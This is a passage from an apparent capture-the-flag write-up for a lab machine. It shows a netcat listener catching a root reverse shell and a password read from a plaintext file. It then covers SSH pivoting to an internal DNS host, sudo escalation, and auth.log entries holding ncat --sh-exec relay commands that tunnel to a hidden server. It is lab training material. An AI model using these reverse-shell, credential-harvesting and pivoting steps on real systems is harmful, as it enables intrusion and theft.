 *Keep in mind, this will create a reverse shell back to the primary box, NOT our attacker machine.*

```sh
dave@ubuntu:~$ nc -nvlp 5555
Listening on [0.0.0.0] (family 0, port 5555)
Connection from [192.168.122.4] port 5555 [tcp/*] accepted (family 2, sport 47202)
bash: cannot set terminal process group (1100): Inappropriate ioctl for device
bash: no job control in this shell
root@DNS:/var/www/html#
```

Dave sure loves to save his passwords in his home directories.

```sh
root@DNS:/home/dave# cat ssh
cat ssh
dave
dav3gerous567
```

## Shell as root (DNS)

Let's use Dave's newly found password and connect via SSH from our other SSH shell. We're logged in as Dave, but can quickly regain root access with a `sudo su` and Dave's password again.

```sh
dave@ubuntu:~$ ssh dave@192.168.122.4
dave@192.168.122.4s password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

98 packages can be updated.
50 updates are security updates.


Last login: Mon Sep  3 16:38:03 2018
dave@DNS:~$ sudo su
[sudo] password for dave: 
root@DNS:/home/dave$
```

> Quick recap... we're currently in an SSH session as follows:
> `Attacker Box --SSH as dave--> Ubuntu (10.129.121.48) --SSH as dave--> DNS (192.168.122.4)`

### Enumeration

Not a whole lot of interesting information to be found by enumerating the filesystem... or so I thought. Once I got to the `auth.log`, I was reminded that we still didn't know our IP address for the `vault` server. Maybe we could find something in there? Sure enough, I found an IP that didn't make sense:

```sh
root@DNS:/var/log$ grep "COMMAND" auth.log -a | grep "192.168.5.2"
Sep  2 15:07:51 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/nmap 192.168.5.2 -Pn --source-port=4444 -f
Sep  2 15:10:20 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 1234 --sh-exec ncat 192.168.5.2 987 -p 53
Sep  2 15:10:34 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 3333 --sh-exec ncat 192.168.5.2 987 -p 53
```
